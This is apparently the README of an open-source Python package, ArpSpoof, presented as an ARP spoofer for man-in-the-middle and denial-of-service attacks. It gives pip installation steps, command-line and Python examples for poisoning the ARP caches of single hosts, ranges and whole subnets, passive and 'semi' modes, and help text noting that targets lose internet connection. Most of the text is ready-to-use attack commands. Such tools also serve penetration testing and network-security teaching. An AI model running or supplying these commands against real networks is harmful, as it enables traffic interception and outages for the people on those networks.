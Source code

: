 ![ArpSpoof logo](https://mauricelambert.github.io/info/python/security/ArpSpoof_small.png "ArpSpoof logo")

# ArpSpoof

## Description

This package implements an ARP Spoofer for MIM (Man-In-the-Middle) or DoS (Denial of Service) attacks.

## Requirements

This package require:
 - python3
 - python3 Standard Library
 - Scapy
 - PythonToolsKit

## Installation

```bash
pip install ArpSpoof
```

## Usages

### Command lines

```bash
python3 -m ArpSpoof -h                    # Use python module
python3 ArpSpoof.pyz --help               # Use python executable

ArpSpoof 127.0.0.1 127.0.0.2              # Use console script entry point
ArpSpoof -v 127.0.0.1 127.0.0.2,127.0.0.5 # Spoof multiple targets (verbose mode)
ArpSpoof 127.0.0.1 127.0.0.2-127.0.0.5    # Spoof range of targets
ArpSpoof 127.0.0.1 127.0.0.0/29           # Spoof all network

ArpSpoof 127.0.0.1 127.0.0.0/29 -s -t 1   # Semi (spoof only gateway IP for the targets, interval is 1 seconds)
ArpSpoof 127.0.0.1 127.0.0.0/29 -i 127.0. # Use the loopback interface

ArpSpoof 172.16.10.1 172.16.0.33 -p       # Passive mode
```

### Python3

```python
from ArpSpoof import SpooferARP

spoofer = SpooferARP('172.16.10.1', '172.16.0.35')
spoofer.active_cache_poisonning()

spoofer = SpooferARP('172.16.10.1', '172.16.0.35', conf.iface, False, 0.5)
spoofer.passive_cache_poisonning(asynchronous=True)
spoofer.run = False
spoofer.sniffer.stop()                                   # only with asynchronous mode
spoofer.restore()                                        # only with asynchronous mode

# Multiple targets
spoofer = SpooferARP('127.0.0.1', '127.0.0.2,127.0.0.3') # Spoof multiple targets
spoofer = SpooferARP('127.0.0.1', '127.0.0.2-127.0.0.5') # Spoof range of targets
spoofer = SpooferARP('127.0.0.1', '127.0.0.0/30')        # Spoof all network
```

## Links

 - [Github Page](https://github.com/mauricelambert/ArpSpoof)
 - [Pypi](https://pypi.org/project/ArpSpoof/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ArpSpoof.html)
 - [Executable](https://mauricelambert.github.io/info/python/security/ArpSpoof.pyz)

## Help

```text
usage: ArpSpoof.py [-h] [--verbose] [--interface INTERFACE] [--time TIME] [--semi] [--passive] gateway target

positional arguments:
  gateway               Gateway IP or hostname
  target                Target IP or hostname

optional arguments:
  -h, --help            show this help message and exit
  --verbose, -v         Mode verbose (print debug message)
  --interface INTERFACE, -i INTERFACE
                        Part of the IP, MAC or name of the interface
  --time TIME, -t TIME  Time in seconds to sleep between sending ARP packets.
  --semi, -s            Spoof IP of the gateway (target will lost internet connection).
  --passive, -p         Passive mode (response to ARP request only)
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).